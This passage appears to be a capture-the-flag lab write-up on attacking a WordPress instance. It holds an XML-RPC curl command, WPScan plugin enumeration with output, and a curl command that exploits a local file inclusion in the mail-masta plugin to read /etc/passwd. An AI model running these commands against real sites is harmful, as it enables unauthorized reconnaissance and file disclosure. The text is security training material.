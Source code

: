 Then run the following command :

```bash
curl -s http://167.172.57.150:30878/xmlrpc.php -X POST -d "$(cat payload.xml)"|grep -e '<value>'|grep -cv 'listMethods'
```

The answer is 80.

### Question 2

Enumerate the provided WordPress instance for all installed plugins. Perform a scan with WPScan against the target and submit the version of the vulnerable plugin named “photo-gallery”.

```bash
wpscan --enumerate ap --url http://167.172.57.150:30878
```

The `--enumerate ap` flag lists all available plugins. In the response, you get the version `1.5.34` :

```
[+] photo-gallery
 | Location: http://167.172.57.150:30878/wp-content/plugins/photo-gallery/
 | Last Updated: 2023-03-30T05:41:00.000Z
 | [!] The version is out of date, the latest version is 1.8.15
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.5.34 (100% confidence)
 | Found By: Query Parameter (Passive Detection)
 |  - http://167.172.57.150:30878/wp-content/plugins/photo-gallery/css/jquery.mCustomScrollbar.min.css?ver=1.5.34
 |  - http://167.172.57.150:30878/wp-content/plugins/photo-gallery/css/styles.min.css?ver=1.5.34
 |  - http://167.172.57.150:30878/wp-content/plugins/photo-gallery/js/jquery.mCustomScrollbar.concat.min.js?ver=1.5.34
 |  - http://167.172.57.150:30878/wp-content/plugins/photo-gallery/js/scripts.min.js?ver=1.5.34
 | Confirmed By:
 |  Readme - Stable Tag (Aggressive Detection)
 |   - http://167.172.57.150:30878/wp-content/plugins/photo-gallery/readme.txt
 |  Readme - ChangeLog Section (Aggressive Detection)
 |   - http://167.172.57.150:30878/wp-content/plugins/photo-gallery/readme.txt
```

### Question 3

Use the same LFI vulnerability against your target and read the contents of the "/etc/passwd" file. Locate the only non-root user on the system with a login shell.

```bash
curl -s http://167.172.57.150:30878/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd|grep /bin/bash|cut -d':' -f1
```

### Question 4
